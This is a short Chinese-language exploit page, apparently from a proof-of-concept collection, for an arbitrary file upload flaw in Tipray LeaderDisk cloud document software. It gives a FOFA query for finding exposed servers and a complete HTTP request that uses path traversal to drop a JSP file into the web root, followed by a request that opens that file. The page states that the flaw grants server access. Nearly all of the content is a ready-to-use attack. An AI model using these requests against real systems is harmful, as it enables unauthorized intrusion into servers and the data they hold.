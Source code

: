 # 天锐绿盘云文档安全管理uploadFolder存在文件上传

天锐绿盘云文档安全管理存在任意文件上传漏洞，可以获取服务器权限

## fofa

body="/lddsm/" || title="天锐绿盘" || title=="Tipray LeaderDisk"||body="location.href=location.href+\"lddsm\""

## poc
```javascript
POST /lddsm/service/../admin/activiti/uploadFolder.do?taskId=../webapps/ROOT/&relativepath=1&path=1 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: [calculated_length]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXqK9dR2yTv7wNpLm

------WebKitFormBoundaryXqK9dR2yTv7wNpLm
Content-Disposition: form-data; name="file"; filename="hello.jsp"
Content-Type: image/png

<% out.println("HelloWorld");%>
------WebKitFormBoundaryXqK9dR2yTv7wNpLm--
```
访问地址
```javascript
GET /hello.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: */*
Connection: close
```
